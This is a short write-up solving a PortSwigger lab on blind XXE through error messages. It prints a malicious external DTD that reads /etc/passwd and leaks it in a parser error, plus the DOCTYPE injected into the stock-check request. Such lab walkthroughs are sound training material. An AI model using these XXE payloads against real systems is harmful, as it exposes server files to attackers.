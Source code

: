 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5b7b4c09-68f3-4c53-bcee-3489eea64ab6)

## Solution :

Create a malicious DTD -
On the exploit server create a malicious DTD file with the following contents,

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
Host this malicious.dtd file in our exploit server.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/9745ae1e-ae6b-49f4-ace4-480576e6cbc2)

Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0c12f1d5-b222-4aa0-83f0-6dd05866ea68)

You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/9518e2b0-917d-4ff8-b2b0-47890355c48d)

Insert the following external entity definition in between the XML declaration and the stockCheck element:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c602fe7c-3a02-4cfc-ab7f-ddf9d9455254)

You should see an error message containing the contents of the /etc/passwd file.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/9c58d17e-c89a-414f-b7e9-3970b302d71e)

Lab sloved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/7ea1fb05-3d40-43f9-88c0-4847ec317aab)



